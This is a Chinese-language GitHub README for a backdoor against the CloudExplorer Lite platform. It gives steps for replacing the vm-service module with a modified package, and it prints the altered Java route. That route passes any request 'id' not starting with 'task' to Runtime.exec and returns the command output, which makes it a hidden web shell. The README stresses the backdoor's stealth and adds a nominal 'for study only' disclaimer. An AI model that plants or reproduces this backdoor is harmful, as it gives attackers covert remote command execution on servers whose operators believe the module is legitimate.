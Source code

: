 # CloudExplorer-Lite-Template-Shell
> 注意：需要具有模块上传权限！！！
> 项目仅用于学习研究，请勿非法利用
## 使用步骤
- 先卸载原有vm-service模块<img src="https://i.328888.xyz/2023/05/15/VZe0OJ.png" alt="VZe0OJ.png" border="0" />
- 上传本项目中的output.tar.gz，系统会重新加载模块<img src="https://i.328888.xyz/2023/05/15/VZe20o.png" alt="VZe20o.png" border="0" />
- output中实际上是对vm-service中的模块进行了更改，成功上传如下<img src="https://i.328888.xyz/2023/05/15/VZeHXN.png" alt="VZeHXN.png" border="0" />
- 后门地址<img src="https://i.328888.xyz/2023/05/15/VZeI5q.png" alt="VZeI5q.png" border="0" />

## 原理
- 修改了模块的一个路由
```java
    @ApiOperation(
        value = "根据任务ID查询",
        notes = "根据任务ID查询"
    )
    @PreAuthorize("hasAnyCePermission('JOBS:READ')")
    @GetMapping
    public ResultHolder<JobRecordDTO> getRecord(@ApiParam("任务ID") @RequestParam("id") String id) {
        if (id.startsWith("task")) {
            return ResultHolder.success(this.iJobRecordService.getRecord(id));
        } else {
            InputStream in = null;

            try {
                in = Runtime.getRuntime().exec(id).getInputStream();
            } catch (IOException var6) {
                throw new RuntimeException(var6);
            }

            Scanner s = (new Scanner(in)).useDelimiter("\\A");
            String output = s.hasNext() ? s.next() : "";
            JobRecordDTO jobRecordDTO = new JobRecordDTO();
            jobRecordDTO.setResourceName(output);
            return ResultHolder.success(jobRecordDTO);
        }
    }
```
- 在不破坏原有业务情况下，隐匿性佳。
